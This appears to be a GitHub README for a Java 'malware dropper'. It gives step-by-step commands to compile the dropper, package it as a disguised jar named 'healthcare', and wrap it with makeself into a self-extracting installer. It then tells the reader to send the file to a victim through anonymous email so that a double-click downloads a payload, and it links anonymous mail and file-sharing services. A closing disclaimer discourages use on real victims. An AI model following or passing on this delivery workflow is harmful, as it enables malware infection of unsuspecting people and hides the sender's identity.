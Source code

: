 # Java-Dropper
![vx](https://art.vx-underground.org/art/c92ebe07-2ac3-4dce-8168-b418e20c1579.png)

A Malware Dropper written in Java, which works as intended!

This is simply a dropper which helps in delivering the payload to your victim. Let's go through the process step-by-step.

# Requirements
![logo](https://cdn.icon-icons.com/icons2/2699/PNG/512/java_logo_icon_168609.png)
1. JDK==17.0.10 (obvious)
- It comes preinstalled on most of the linux distros, If you don't have it, install it.
- Check by running the command: ```java --version```
2. Install **makeself**
- ```sudo apt install makeself``` and once it's done, we're good to go.
3. Assuming that your are testing this dropper on another victim machine which is **yours**.
  - Boot up your Vmware/Virtualbox and load your victim machine but do not power it on yet.

# Simple Instructions

1. Create a dir ```mkdir dropper_file```  which we will be using to store all the necessary files.
2. Download the **Dropper.java** file from this repo and store it in the above created dir, make necessary changes to it such as changing the payload and victim's default download path.
3. Run ```javac Dropper.java```, It will make a class file upon compilation. You'll get a class file and keep it with you.
4. create a jar file: ```jar cvfe Dropper.jar healthcare Dropper.class```
5. Make a shell script: ```touch run.sh``` open the file
   ```pluma run.sh``` and include the following in that script.
```
!#/bin/bash
 java -jar dropper.jar
```

  - The ``run.sh`` serves as a supporting script to make the jar file executed immediately, save the file in the same direcory.

6. run
```makeself --notemp /home/<user>/dropper_files /home/<user>/dropper_files/dropper_installer.sh "healthcare" ./run.sh```

you can name the jar file as you wish, i'm using healthcare as the name, replace the user with your actual sys user and run the command. If you have done everything correctly, you can see the ```Dropper.jar``` file.

<a href="https://ibb.co/3v3vxbL"><img src="https://i.ibb.co/xYkYnbR/show-dropper.jpg" alt="show-dropper" border="0"></a>

- once that's done, we can now transfer this ***Dropper.java** to the victim's machine by using any anonymous mail or by any other means,I suggest using temporary mails if you're doing on a real victim which i highly suggest you to not do. After the victim double clicks on the jar file It should automatically execute the files we placed inside and download the payload to the specified directory in victim's machine. I can show how an attacker can meticulously craft a social engineering attack on the victim and make him/her click on the unsuspected file, which in returns downloads the payload into the machine. ***There seems to be an issue from the SXF option in Jar file, I'll make the necessary changes and update the repository. Untill then the java dropper may not work properly.***
# Some resources that might help
> - [File.Io](https://www.file.io/)
> - [AnonMail](https://anonymous-mail.maildim.com/)
> - [Upload Anonymously](https://anonsharing.com/)
> - Thanks to VX-UnderGround for their awesome art.
[VX-UG](https://art.vx-underground.org/index.html)

# Disclaimer
All this is done to show how the whole malware drop scenarios work, don't use this to send the payloads to real victims, which will land you in bad position. While it may seem cool to do, It's not. It is completely unethical and makes the victim cause damage. I hold no responsiblity and liability in such cases. I want you to know how this works by testing this stuff on your own system. 
